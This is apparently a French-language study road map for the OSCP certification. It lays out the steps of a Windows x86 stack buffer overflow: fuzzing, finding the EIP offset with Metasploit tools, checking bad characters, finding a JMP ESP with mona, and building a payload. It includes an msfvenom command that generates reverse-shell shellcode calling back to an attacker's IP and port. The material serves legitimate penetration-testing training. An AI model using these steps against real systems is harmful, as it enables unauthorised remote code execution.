 # OSCP
Road map pour OSCP

# FUZZING :
Trouver un paramètre et lui envoyer autant de bytes possibles en créant un script python et en utilisant la lib socket.

Une fois que le fuzzing a crash, récuperer le nombre de bytes qui l'ont fait crash. 

# FINDING OFFSET :
Afin de récuperer l'offset précis pour écrire EIP, utiliser "/usr/share/metasploit-framework/tools/exploit/pattern_create.rb - l {nb de bytes qui ont fait crash le fuzzer}" pour générer des bytes uniques.

Ensuite on modifie le script python afin d'envoyer les bytes générés, on execute le script et on récupere sur Immunity la valeur de EIP.

Après cela, utiliser "/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l {nb bytes qui ont fait crash le fuzzer} -q {offset trouvé sur EIP dans Immunity}"

Le script ruby nous retourneras l'offset précis afin de controler EIP, tester en ajoutant :

      shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {"B" * 4}

Cette fois, on devrais voir EIP à "42424242".

# FINDING BADCHARS :
Taper sur Google : badchars, copier le code et le coller dans une variable, les encodés directement et les rajouter qu'après la fonction encode.

      shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {"B" * 4} + {badchars}
      
Retourner sur Immunity, aller sur ESP, clic droit et follow dump, si la suite des badchars s'affiche correctement, il n'y a pas de badchars, sinon, récuperer le ou les badchars et les exclures lors de la génération de shellcode.

# FINDING vulnerable MODULE :
Désormais, aller sur Immunity importer mona, relancer le programme et chercher un module sans aucune sécurité active (tout à false) :

      !mona modules

Après cela, chercher dans ce propre module, une adresse qui jump sur ESP afin de réecrire dedans et executer le shellcode

      !mona jmp -r esp -m {nom du module non sécurisé}
      
Quand l'adresse est trouvée, relancer Immunity en attachant le programme, cliquer en haut sur "Go to address in disassembler", entrer l'adresse et poser un breakpoint avec F2.


Aller sur le script python et faire ceci :

      shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {adresse JMP en little endian}
      
Pour l'adresse en little endian déjà encodée en byte : ret = bytes.fromhex('{Adresse en little endian}')

Si après exécution du script, EIP contient la valeur de l'adresse, cela fonctionne.

# GENERATING SHELLCODE :
Afin de générer le shellcode, utiliser msfvenom :

      msfvenom --arch x86 --platform windows LHOST={@IP} LPORT={@PORT} -e x86/shikata_ga_nai -p windows/shell_reverse_tcp -f python -b "\x00 (ne pas oublier les badchars trouvés)"
      
 Copier le shellcode, le mettre dans le script et l'ajouter de la manière suivante :
 
       shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {adresse JMP en little endian} + nop*10 + {shellcode généré}
       
# REVERSE SHELL :
Se mettre à l'écoute au préalable, lancer le script, normalement un shell est poppé.
